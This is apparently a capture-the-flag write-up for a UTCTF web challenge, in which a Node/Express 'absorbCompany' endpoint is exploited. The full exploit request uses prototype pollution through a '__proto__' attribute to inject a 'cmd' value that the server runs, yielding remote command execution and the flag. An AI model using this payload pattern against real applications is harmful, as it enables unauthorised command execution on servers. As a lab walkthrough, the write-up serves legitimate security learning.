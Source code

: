 
We are given the source code for this challenge

We are given the option to either create a company or merge companies

Lets try both, make sure to capture the requests in burp suite

The merge companies option uses `/api/absorbCompany/{companyID}`

We have to place the value of company ID in the api to merge companies
First lets create a company, the created company has an ID of `0`
Now put this in the abosorb company field. The request looks something like this

```http
POST /api/absorbCompany/0 HTTP/1.1
Host: guppy.utctf.live:8725
User-Agent: lol
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://guppy.utctf.live:8725/
Content-Type: application/json
Content-Length: 55
Origin: http://guppy.utctf.live:8725
Connection: close
Cookie: connect.sid=s%3A7t134QXHVsEKWChij352KUXiHl7VGiBk.0hMt8OWVepmqmu5wAke%2BCCplgead79nlLQeaHOjSCpg

{"attributes":["ASDF","AAAA"],"values":["ZXCV","BBBB"]}
```

And the response looks like

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Mon, 01 Apr 2024 11:15:53 GMT
Connection: close
Content-Length: 184

{"merged":{"ASDF":"ZXCV","AAAA":"BBBB","cid":2},"err":{"code":126,"killed":false,"signal":null,"cmd":"./merger.sh"},"stdout":"","stderr":"/bin/sh: 1: ./merger.sh: Permission denied\n"}
```

In the code we can see that they are creating objects with the attributes and value we gave them.

We also see that after merging it also proceed to check if the `cmd` attributes  
exist on some random object. If not, it default's it to a random script and executes it.  
So by changing the value of the cmd attribute in all the object we could have an rce.

The exploit request looks like this 

```http
POST /api/absorbCompany/0 HTTP/1.1
Host: guppy.utctf.live:8725
User-Agent: lol
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://guppy.utctf.live:8725/
Content-Type: application/json
Content-Length: 62
Origin: http://guppy.utctf.live:8725
Connection: close
Cookie: connect.sid=s%3A7t134QXHVsEKWChij352KUXiHl7VGiBk.0hMt8OWVepmqmu5wAke%2BCCplgead79nlLQeaHOjSCpg

{"attributes":["__proto__"],"values":[{"cmd":"cat flag.txt"}]}
```

And in the response we get the flag. The response looks like

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Date: Mon, 01 Apr 2024 11:37:26 GMT
Connection: close
Content-Length: 118

{"merged":{"ASDF":"ZXCV","AAAA":"BBBB","cid":3},"err":null,"stdout":"utflag{p0lluted_b4ckdoorz_and_m0r3}","stderr":""}
```

flag : utflag{p0lluted_b4ckdoorz_and_m0r3}